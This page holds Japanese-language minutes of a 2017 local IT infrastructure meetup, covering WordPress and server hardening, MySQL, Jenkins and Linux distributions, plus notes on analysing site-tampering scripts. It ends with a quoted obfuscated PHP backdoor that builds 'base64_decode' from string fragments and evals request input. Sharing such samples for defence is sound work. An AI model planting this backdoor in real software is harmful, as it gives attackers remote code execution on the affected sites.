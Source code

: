 ```yaml
---
title: 加古川IT系インフラ勉強会 2017.09
date: 2017-09-09
categories:
  - 開催履歴
  - meeeting-log
tags:
  - 加古川IT系インフラ勉強会
---
```


* 開催日：2017/09/09
* 司会：wate
* 参加者数：参加者: 6名 / 学生: 0名 / HanGout: 1名
* 備考：気付いたことなど、自由に記入をお願いします！
* Connpass: https://histudy.connpass.com/event/66082/
* ハッシュタグ：#kakogawa_infra

内容
-------------------------

### 脆弱性

* MySQLの不満あれこれ
    * いつの間にかテーブルサイズが肥大化する
    * プラグインによっては、wp_optionsテーブルが肥大化。。。
    * 「汎用化」に振りすぎ？
* WordPressのセキュリティ対策
    * REST APIで脆弱性が増えたかも
    * パーミッションに注意
    * セーフモードは既に意味なさげ
    * プラグインを制限する
    * 接続元を国内限定にする(かなり効いた)
    * ファイルのチェックサムを取る
    * gitで管理する
    * WPScanかける
    * ...のような面倒な作業はJenkinsに任せたい(LDAPサーバーどうしよう)
* Jenkinsによる自動化とか勉強会やってみたい
    * Jenkins2.0でPipelineが導入された。便利そう
* うちのインフラ部門がAmazon Linux大好きなので、最近そちらやってます
    * Debian慣れしてるので、Amazon Linux気持ち悪い
    * RedHatに似てるが、バージョンをがんがんあげるので互換性に不安
* CentOSめんどくさい
    * 7に移行中です
    * 7になれてない人大丈夫？
* やはりサーバーは2-3年で更新しないと
* クラウドで管理はだいぶ楽になった
    * Shell Scrptでちまちま管理してましたがAnsibleでOK
    * OpenStackまわりとかやってみたいね(ConoHaとか)
* Vineなつかし。MecabはまだUTF-8がデフォルトじゃないのかしら
* 幸いWordPressの闇はまだ見たことないです
* Webの勉強会開催は難しい?
    * 勉強会のフォームを用意して、「あとはよろしくね」というメソッドが有効?
    * WordBench姫路開催の予感
    * WordBench京都、大阪、神戸の所感もげもげ
* サーバー管理ネタをWordBenchあたりで話してみる?
    * 管理者の視点で言えることとか
* サーバーアプリケーションの脆弱性対応は、業者ではやりにくい(検閲とかに該当)
* WordPress改竄スクリプトの解析とかやってるところもあります
* 改竄コードの例
    * $$dataという変数に、あらかじめbase64でエンコードしておいた生データをデコード、代入している
    * $$dataをそのままeval、とかやってそう
    * 怪し気なzipファイルを展開している
    * zipファイル展開確認。フィッシングサイトを開設するとおぼしきPHPのコード一式が入っていた
    * おそらく同時に撒いたであろうspamにここのURLが入ってるはず
    * ACLファイルを入れ替えられてるも
* Fail2banをSMTPなどにも入れている
* sshアクセスはWebからのアクセス元のみに限定する
* FollowSymlinkの禁止を導入したが、一部ツールはこれに依存していたりする
* JavaScriptの脆弱性
    * 難読コード(昔の一例)

```php
<?php
    $sF="PCT4BA6ODSE_";
    $s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
    $s20=strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[0]);if (isset(${$s20}['nd335c3'])) {
        eval($s21(${$s20}['nd335c3']));
    }
?>
```
